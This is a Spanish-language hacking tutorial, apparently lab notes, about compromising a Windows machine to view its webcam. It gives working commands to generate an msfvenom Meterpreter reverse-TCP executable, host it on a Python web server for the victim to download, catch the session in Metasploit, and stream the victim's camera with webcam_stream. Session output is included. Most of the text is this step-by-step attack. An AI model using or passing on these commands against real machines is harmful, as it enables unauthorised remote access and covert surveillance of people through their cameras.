

# Visualizar Webcam en Windows

## <mark style="color:purple;">Vulnerar windows</mark>

Crearemos un archivo malicioso que la persona se descargara en internet, pero nosotros simularemos eso para tener una shell en metasploit de la maquina victima de windows.

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

Una vez creada la aplicacion maliciosa, abriremos un servidor de `python3` que es donde se simulara nuestra pagina web a la que el usuario tiene que entrar para descragarse el `.exe` malicioso.

```shell
python3 -m http.server 80
```

> Maquina windows

En la maquina windows, nos metemos a internet y ponemos la siguiente direccion URL.

```
URL = http://<IP_ATACKER>/shell.exe
```

Y esto nos descargara la aplicacion maliciosa, una vez hecho eso, configuraremos la escucha en metasploit antes de darle a ejecutar.

> Maquina atacante

```shell
msfconsole -q
```

```shell
use multi/handler
```

Configuramos el exploit de la escucha.

```shell
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
```

Ejecutamos el exploit y en ese momento estaria a la escucha, por lo que ejecutaremos el `.exe` para que nos de una shell.

```shell
run
```

Una vez ejecutado el `.exe` en la maquina windows, si volvemos a metasploit donde tenemos la escucha, obtendremos una shell con la maquina windows.

Info:

```
[*] Started reverse TCP handler on 192.168.5.199:7777 
[*] Sending stage (201798 bytes) to 192.168.5.141
[*] Meterpreter session 1 opened (192.168.5.199:7777 -> 192.168.5.141:49174) at 2024-08-02 13:34:09 +0200

meterpreter >
```

## <mark style="color:purple;">Vulnerar webcam</mark>

Vemos la lista de camaras que tiene activas.

```shell
webcam_list
```

Info:

```
1: Microsoft LifeCam Cinema(TM)
```

Vemos que tiene una, por lo que la ejecutaremos de la siguiente manera.

```shell
webcam_stream 1
```

Info:

```
[*] Starting...
[*] Preparing player...
[*] Opening player at: /home/dise0/Desktop/cPHdyMaU.html
[*] Streaming...
```

Y a parte de ponerte esto por terminal, se te habrira el navegador con la camara activa viendo lo que pasa a tiempo real como se muestar en la siguiente imagen.

<figure><figcaption></figcaption></figure>

Por lo que ya habriamos vulnerado una webcam.
